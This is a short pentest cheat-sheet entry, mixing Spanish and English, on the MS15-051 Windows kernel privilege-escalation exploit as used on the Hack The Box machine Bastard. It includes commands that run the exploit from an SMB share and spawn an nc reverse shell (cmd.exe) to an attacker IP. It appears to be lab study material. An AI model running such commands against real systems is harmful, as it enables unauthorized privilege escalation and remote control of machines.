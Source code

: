 
## DESCRIPTION

This security update resolves vulnerabilities in Microsoft Windows. The more severe of these vulnerabilities could allow elevation of privilege if an attacker logs on locally and runs arbitrary code in kernel mode. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights. An attacker must have valid logon credentials and be able to log on locally to exploit this vulnerability. The vulnerability cannot be exploited remotely or by anonymous users.

Vulnerable and checked versión: Windows Server 2008, x64 architecture.

#### Mas información:
* https://learn.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-051
* https://0xdf.gitlab.io/2019/03/12/htb-bastard.html


## EXPLOITATION

1. Descargamos el exploit: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

2. Lo tranferimos a la máquina: [[TRANSFERRING FILES]]

3. Ejecutamos:

```
#Using smb resource
\\10.10.14.14\share\ms15-051x64.exe "whoami"
#Using nc to create a reverse shell
\\10.10.14.14\share\ms15-051x64.exe "\\10.10.14.14\share\nc64.exe -e cmd.exe 10.10.14.14 443"
```

## MACHINES

* Hack The Box: Bastard

**!!NOTA IMPORTANTE!!** 